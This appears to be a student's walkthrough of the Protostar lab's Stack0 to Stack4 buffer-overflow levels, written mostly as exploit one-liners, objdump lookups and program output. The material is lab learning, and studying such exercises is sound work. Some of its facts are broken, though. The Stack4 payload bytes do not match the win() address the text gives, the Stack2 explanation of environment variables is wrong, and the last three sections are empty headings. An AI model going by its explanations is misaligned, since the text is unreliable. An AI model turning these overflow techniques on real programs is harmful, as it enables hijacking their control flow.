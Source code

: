 ### Stack0

To modify variable we need to overwrite space on buffer[64] \
`user@protostar:/opt/protostar/bin$ (python -c "print 'a'*65") | ./stack0` \
`user@protostar:/opt/protostar/bin$ you have changed the 'modified' variable`\

We write 65 here, because 64 not overload the stack

### Stack1

Now we need modify the specific value (  0x61626364  ~ "dcba") \
So. Let's check what will happen if we write into buffer as in previous task:\
`./stack1 'python -c "print ('a' * 65)"'`\
`Try again, you got 0x00000061`

Ok. now It's better, we know that we can overwrite buffer. Continue with our value: \
`./stack1 'python -c "print ('a' * 64 + 'dcba')"'`

We remove one char with 'a', because we need overloading starts with 'dcba' value\
Now we will get: \
`you have correctly got the variable to the right value`

### Stack2

Here we have fun thing with env vars -- actually command python also is env var. So. \
When we would try to create env var with value like `python 'print (A)'` it will be \
processed as a command. Let's try it out:\
`GREENIE = 'python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')'`

Check what we do:
`echo $GREENIE` \
What we get: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

Okay, now we need to call the **_./stack2_** and checj how it will work for us \
call --> ` ./stack2` \
`you have correctly modified the variable` \
Great job!

### Stack3

Now we have pointer fp on function that don't exist while in the fp only value is written \
and func win() that should be called. \
At first we should find out where our win function stored in memory. \
With this objdump tool can help us. As long as our virual machine is run on Debian OS \
we should use following command : \
`apt-get install binutils-i586-linux-gnu`\
call : `objdump -x stack3 | grep win`, where -x is flag to show all headers of obj \
result: `08048424 g     F .text  00000014              win` \
So now we know address of win ~ 0x08048424. And our task is only to overwrite fp with this value \
We know that we store data in Little Indian, so... \
as in previous tasks we need buffer with size 64 in a char and our address in hex 

` (python -c "print 'a'*64 + '\x24\x84\x04\x08'";) | ./stack3`

Output:\
`calling function pointer, jumping to 0x08048424`\
`code flow successfully changed`

Yes! We got this.

### Stack4

Okay, now we have no value to overwrite. So only thing that we could do is to overwrite the\
return address of the main function. It's stored in the stack in the start of frame. 

So we should bound the dedicated to main func stack size. How we can do this? we will try to increase size of the buffer \
until we will get the segmentation fault. \
Spoiler: that will be size of 76.\
`(python -c "print 'a'*76";) | ./stack4`

Cool, now we only need the address of win() to write it onto the return function point \
we can do in the same way as in the Stack3 task. Address: 0x08048424 

`(python -c "print 'a'*76 + '\xf4\x83\x04\x08'";) | ./stack4`

output: `code flow successfully changed` \
Well done! Let's move to the nex task

###Stack5
###Stack6
###Final0




